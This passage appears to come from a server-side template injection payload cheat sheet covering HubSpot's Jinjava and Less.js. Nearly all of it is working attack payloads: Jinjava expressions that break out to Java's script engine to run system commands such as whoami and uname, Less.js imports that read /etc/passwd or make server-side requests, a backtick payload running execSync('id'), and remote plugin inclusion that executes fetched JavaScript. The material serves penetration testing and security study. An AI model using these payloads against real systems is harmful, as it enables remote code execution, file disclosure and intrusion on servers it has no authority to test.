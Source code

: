 Jinjava is an open source project developed by Hubspot, available at [https://github.com/HubSpot/jinjava/](https://github.com/HubSpot/jinjava/)

### Jinjava - Command execution

Fixed by https://github.com/HubSpot/jinjava/pull/230

```python
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
```

---

## Lessjs

[Official website](https://lesscss.org/)
> Less (which stands for Leaner Style Sheets) is a backwards-compatible language extension for CSS. This is the official documentation for Less, the language and Less.js, the JavaScript tool that converts your Less styles to CSS styles.

### Lessjs - SSRF / LFI

```less
@import (inline) "http://localhost";
// or
@import (inline) "/etc/passwd";
```

### Lessjs < v3 - Command Execution

```less
body {
  color: `global.process.mainModule.require("child_process").execSync("id")`;
}
```

### Plugins

Lessjs plugins can be remotely included and are composed of Javascript which gets executed when the Less is transpiled.

```less
// example local plugin usage
@plugin "plugin-2.7.js";
```
or
```less
// example remote plugin usage
@plugin "http://example.com/plugin-2.7.js"
```
